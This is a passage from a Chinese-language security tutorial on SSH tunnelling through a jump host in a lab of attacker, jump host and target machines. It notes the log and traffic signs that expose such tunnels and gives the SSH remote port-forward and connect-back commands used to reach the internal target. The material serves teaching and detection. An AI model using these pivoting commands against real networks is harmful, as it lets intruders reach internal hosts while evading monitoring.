 192.168.174.128——192.168.174.1/192.168.44.1 的流量：很明显的 ssh 流量

[![](assets/1709530725-cfa6b6f448c106f91126dc0982c4ba51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151038-ce5a768a-d79a-1.png)

综上是容易找到异常的地方主要还是跳板机 (192.168.174.1/192.168.44.1) 的 ssh 日志 (不明 ip 连接)、网络连接 (监听转发式的连接)、流量 (不明 ip 和 mstshash)，在没有流量的情况下发现隧道还是蛮难的。

### Linux 下环境搭建

```plain
攻击机：Ubuntu22.04 | 192.168.174.128
跳板机：ubuntu20.04 | 192.168.44.130/192.168.174.129
目标机：kali | 192.168.44.129
```

设置个远程转发

```plain
ssh -CfNg -R 2333(攻击机端口):192.168.44.129(目标机 ip):22(目标端口) hackme@192.168.174.128(攻击机)
```

[![](assets/1709530725-53f574fe21afae082641221ffad30564.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151120-e79cd336-d79a-1.png)

攻击机执行：

```plain
ssh hackme@127.0.0.1 -p 2333
```
